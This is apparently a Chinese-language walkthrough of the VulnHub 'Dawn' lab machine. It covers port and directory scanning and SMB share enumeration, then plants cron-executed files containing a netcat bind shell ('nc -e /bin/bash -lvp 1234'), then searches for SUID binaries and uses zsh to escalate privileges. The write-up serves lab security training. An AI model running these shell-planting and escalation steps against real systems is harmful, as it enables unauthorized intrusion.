






# Dawn

> https://download.vulnhub.com/sunset/dawn.zip

靶场IP：`192.168.32.20`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.20
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 23:11 EDT
Nmap scan report for 192.168.32.20
Host is up (0.000092s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
MAC Address: 08:00:27:28:02:FE (Oracle VirtualBox virtual NIC)
Service Info: Host: DAWN

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.95 seconds

```

访问80端口



爆破目录

```
┌──(root㉿kali)-[~]
└─# dirb http://192.168.32.20/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 13 23:15:13 2022
URL_BASE: http://192.168.32.20/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.20/ ----
+ http://192.168.32.20/index.html (CODE:200|SIZE:791)                                                                                                                                                                                     
==> DIRECTORY: http://192.168.32.20/logs/                                                                                                                                                                                                 
+ http://192.168.32.20/server-status (CODE:403|SIZE:301)                                                                                                                                                                                  
                                                                                                                                                                                                                                          
---- Entering directory: http://192.168.32.20/logs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Sep 13 23:15:16 2022
DOWNLOADED: 4612 - FOUND: 2

```

访问：`/logs/`



只能访问：`management.log`

```
┌──(root㉿kali)-[~]
└─# curl http://192.168.32.20/logs/management.log
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...

```

查看共享目录

```
┌──(root㉿kali)-[~]
└─# smbclient -L //192.168.32.20 
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        ITDEPT          Disk      PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT AUTHORIZED TO USE THIS SYSTEM LEAVE IMMEADIATELY.
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            DAWN

```

查看`ITDEPT`共享目录

```
┌──(root㉿kali)-[~]
└─# smbclient //192.168.32.20/ITDEPT
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Aug  2 23:23:20 2019
  ..                                  D        0  Fri Aug  2 23:21:39 2019

                7158264 blocks of size 1024. 1283964 blocks available

```

我们回到我们的终端并创建了名为"`product-control`"和"`web-control`"的文件。

我们使用此名称创建文件，因为之前在枚举 `management.log` 文件时，我们看到具有此名称的文件每分钟执行一次。



一次又一次，使用cron。我们还使用 echo 命令在这些文件中输入了 netcat shell 调用脚本。

```
echo 'nc -e /bin/bash -lvp 1234 &' > product-control
echo 'nc -e /bin/bash -lvp 1234 &' > web-control
```

SMB上传文件



nc连接



寻找suid文件

```
dawn@dawn:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn

```

使用zsh提权


